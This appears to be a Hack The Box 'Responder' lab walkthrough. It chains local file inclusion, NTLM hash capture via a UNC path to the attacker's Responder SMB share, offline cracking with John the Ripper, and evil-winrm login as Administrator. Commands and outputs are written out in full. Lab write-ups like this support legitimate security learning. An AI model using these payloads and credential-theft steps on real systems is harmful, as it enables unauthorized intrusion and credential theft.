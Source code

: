 # Introduction

As part of the learning path for beginners, Hack The Box offers a series of machines under the Starting Point Tier 1 category. These are designed to help new users get familiar with the fundamentals of penetration testing in a guided and progressive way. Among them, **Responder** stands out as the first machine that introduces a slightly more complex challenge. Despite its `Very Easy` difficulty rating, solving it requires chaining together a few steps — making it more structured than previous boxes in the path. It's a great opportunity for newcomers to practice building simple attack chains and start developing a more methodical mindset when approaching machines.

# Information Gathering

## Nmap

The first step was to identify open ports and services running on the target. I started with a full `TCP SYN` scan across all 65,535 ports.

```
sudo nmap -sS -p- -T5 10.129.197.98 

PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

This revealed two open ports:

- Port 80/tcp – `HTTP`
- Port 5985/tcp – `WSMan (Windows Remote Management)`

Next, I ran a more detailed service and version detection scan on these ports using the default Nmap scripts.

```
sudo nmap -sS -sC -sV -p 80,5985 -T5 10.129.197.98
```

### Port 80 – HTTP

```
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

The web server is running `Apache 2.4.52` on a Windows platform, along with `PHP 8.1.1`. The response headers and the use of the `(Win64)` build clearly suggest that the underlying operating system is Windows.

### Port 5985 – WSMan (WinRM)

```
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

This port is associated with `Windows Remote Management (WinRM)` and confirms that the target is running `Microsoft HTTPAPI 2.0`, further verifying the Windows environment.

### Web Technologies

To enumerate the technologies used by the web server, I utilized `Wappalyzer`, which confirmed the same information gathered with Nmap. This reinforced the initial findings and helped validate the target’s technology stack.

![Web Technologies](images/web-technologies.png)

## Web Enumeration

After identifying that the web server was running `Apache` on Windows at port `80`, I started by browsing the site manually. While there were no useful results from directory brute-forcing with tools like `gobuster`, one particular feature on the homepage caught my attention: a language selection menu. 

![image.png](attachment:7b4cf157-95e9-49f8-8e88-957fbc9349ea:image.png)

Inspecting the URL when changing the language revealed the following pattern:

```
http://unika.htb/index.php?page=german.html
```

This indicated that the page content was likely being dynamically included based on the `page` parameter — a potential sign of `Local File Inclusion (LFI)`. To test for LFI, I modified the `page` parameter to attempt accessing a local system file.

```
http://unika.htb/index.php?page=../../../../../../../windows/win.ini
```

![image.png](attachment:1077fc4a-a3ac-472b-a02d-1e8d1d3d3afb:image.png)

The file was successfully included and displayed in the browser, confirming the presence of an LFI vulnerability. At this point, I knew that the server was vulnerable to arbitrary file inclusion, and I began exploring ways to leverage this vulnerability to move further into the system.

## Deeper Investigation and NTLM Hash Capture via SMB

After confirming the LFI vulnerability, I initially tried to escalate it to a `Remote File Inclusion (RFI)` attack by hosting a malicious web shell via a Python HTTP server, hoping to include it remotely through the vulnerable `page` parameter. Unfortunately, this approach did not work, as the server was not configured to allow RFI.

While digging deeper, I discovered an important detail about how PHP’s `include()` function behaves on Windows systems when given a UNC path (a network share path like `\\10.10.14.249\fakeshare`). When PHP on a Windows system attempts to include a remote file via a UNC path (e.g., `\\10.10.14.249\fakeshare`), the server tries to authenticate to that remote SMB share using `NTLM` authentication.

This behavior can be abused to capture authentication hashes by setting up a malicious SMB server on the attacker’s machine. The target server will automatically send its credentials when attempting to access the share, allowing an attacker to capture NTLM hashes.

To exploit this, I launched `Responder` on my machine to listen and capture NTLM hashes over SMB.

```
sudo responder -I tun0 -d -w
```

Then, I crafted the URL in the vulnerable web parameter to force the server to connect to my machine’s non-existent SMB share.  

```
http://unika.htb/index.php?page=//10.10.14.249/fakeshare
```

As a result, the target machine tried to access the fake SMB share hosted by `Responder`, sending its NTLM authentication hash, which I successfully captured. Among these hashes was the hash for the `Administrator` user.

![image.png](attachment:5f121b43-3729-4de8-a8c1-3fd8828b84bb:image.png)

## Cracking the Captured NTLM Hash

After capturing the NTLM hash of the Administrator account with `Responder`, I saved it into a file named `hash.txt`. The next step was to crack the hash offline to obtain the cleartext password. I used `John the Ripper` setting the `netntlmv2` format options and the popular `rockyou.txt` wordlist.

```
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-05-29 11:31) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

The cracking process was very fast, and John successfully recovered the password. With the `Administrator` password in hand, I was now ready to proceed with privileged access to the target machine.

## Accessing the Machine and Retrieving the Flag

With the cracked credentials in hand, I used **`evil-winrm`** to log into the target machine via the `WinRM` service running on port `5985`.

```
evil-winrm -u administrator -p 'badminton' -i 10.129.197.98
```

![image.png](attachment:00ff3809-0994-4c28-9bc6-c3392d9dad32:image.png)

Once inside, I used `PowerShell` to search recursively for the flag file.

```
Get-Childitem -Path c:\ -Recurse -Filter "flag*"

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

I navigated to the directory to verify and access the file.

```
cd ../../mike/Desktop
ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

Finally, I opened the `flag.txt` file to capture the flag and complete the challenge.

## Conclusion

For this walkthrough, I chose to take a different approach than the official Hack The Box methodology. HTB breaks down the `Responder` challenge into eleven guided tasks, leading the user step-by-step with specific questions towards the flag. Instead, I decided to follow a more `black-box methodology`, approaching the machine as a real-world engagement — without hints or a strict path laid out. 

This meant relying on careful enumeration, logical reasoning, and chaining vulnerabilities based on the information uncovered during the whole process. I believe this approach provides a deeper learning experience, helping to develop the skills needed to tackle similar challenges in less guided, more realistic scenarios.

If you’re new to penetration testing, I recommend starting by following the guided HTB path. Then, after some time, come back and try to solve it again on your own to truly sharpen and test your skills.

